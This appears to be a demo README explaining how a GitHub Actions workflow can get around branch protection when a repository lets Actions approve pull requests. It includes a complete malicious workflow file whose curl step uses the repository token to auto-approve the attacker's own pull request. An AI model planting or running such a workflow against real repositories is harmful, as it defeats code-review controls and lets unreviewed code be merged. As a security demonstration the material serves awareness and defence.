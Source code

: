 # Bypassing Branch Protections with Github Actions

This is a demo show cases the bypassing of branch protection with GitHub Actions based on [YouTube video](https://www.youtube.com/watch?v=UbfhVXJn6fk)

![image](https://github.com/tuladhar/bypassing-branch-protections-with-github-actions/assets/5674762/57996f5e-c009-458d-bb09-e6fd9658daf7)

## How it works?

### Victim
1. Configure the repository to allow GitHub Actions to approve PRs
![image](https://github.com/tuladhar/bypassing-branch-protections-with-github-actions/assets/5674762/61bcbfa6-fe76-4e6d-90f4-85ea70de7e1c)

> NOTE: As per the [blog posted on May 3rd, 2022 by GitHub](https://github.blog/changelog/2022-05-03-github-actions-prevent-github-actions-from-creating-and-approving-pull-requests/)https://github.blog/changelog/2022-05-03-github-actions-prevent-github-actions-from-creating-and-approving-pull-requests/. New repository by default comes with above setting turned off.

2. Configure branch protection on `main` branch.
<img width="821" alt="Screen Shot 2023-06-18 at 11 48 56 AM" src="https://github.com/tuladhar/bypassing-branch-protections-with-github-actions/assets/5674762/f422d785-5e1c-4c9b-ae7c-eb919c94dcaf">

### Attacker
1. Creates a branch with malicious actions workflow file: `dodgy.yaml`
```
name: APPROVE

on: pull_request

permissions:
  pull-requests: write

jobs:
  approve:
    runs-on: ubuntu-latest    
    steps:
    - run: |
        curl --request POST \
        --url https://api.github.com/repos/${{github.repository}}/pulls/${{github.event.number}}/reviews \
        --header 'authorization: Bearer ${{ secrets.GITHUB_TOKEN }}' \
        --header 'content-type: application/json' \
        -d '{"event": "APPROVE"}'
```
2. Creates a pull request from malicious branch and behind the scene:
- Workflow is triggered on new PR
- `approve` job is executed against the PR
- `github-actions[bot]` automatically approves the PR
- Attacker is able to merge the PR without victim's consent and bypassing branch protection requiring 1 approval.
